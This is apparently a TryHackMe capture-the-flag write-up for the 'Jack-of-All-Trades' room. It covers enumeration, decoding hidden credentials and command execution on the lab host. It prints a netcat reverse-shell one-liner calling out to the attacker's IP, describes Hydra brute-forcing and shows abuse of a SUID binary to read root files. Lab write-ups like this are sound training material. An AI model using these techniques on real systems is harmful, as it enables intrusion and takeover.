 ```yaml
---
title: Jack-of-All-Trades TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/1.jpeg)

## Scanning
We performed an nmap scan of all ports, with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/2.png)

## Enumeration
We tried to access the website from the browser, but it will not open.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/3.png)

But, if we try **curl** we will see the content of the site, there is a string in **base64**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/4.png)

Decode the message, you will get a password.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/5.png)

We access the file *"recovery.php "*, there we will have to decode another message, this time it will be more complicated.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/6.png)

We access the site with the hint, we see a famous *"dinosaur"*. After reading the message and the image, we already sense what we have to do.

#### Download stego.jpg image

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/7.png)

Let's try the other image... And we got credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/8.png)

Searching through **Google**, we found this [tutorial](https://www.ryadel.com/en/firefox-this-address-is-restricted-override-fix-port/
) that explains how to change the port to browse **Firefox**, so we follow the guide, access the file *"recovery.php"* and use the credentials obtained.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/9.png)

## Exploitation
We make a small one and check that we can execute commands.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/9.png)

#### Reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We will use the above *payload + URL-Encode* to obtain a shell on the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/10.png)

We access the *"/home/"* and find a list of passwords for the user *"Jack"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/11.png)

We use the **Hydra** tool to obtain the correct password in just seconds.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/12.png)

We access by **SSH**, we enumerate a file *"user.jpg"*. We transfer it to our machine and read the user flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/13.png)

#### Evidence user flag

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/14.png)

## Abuse of privileges
We launch the **lse.sh** tool, enumerate the uncommon SUID *strings* binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/15.png)

We look for information, we see that it is possible to load a variable with an arbitrary path and to be able to execute **strings** to read its content. 

First, I tried to read the file *"id_rsa"* of the root user, but it does not exist. So a quick option is to read the flag directly.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/16.png)




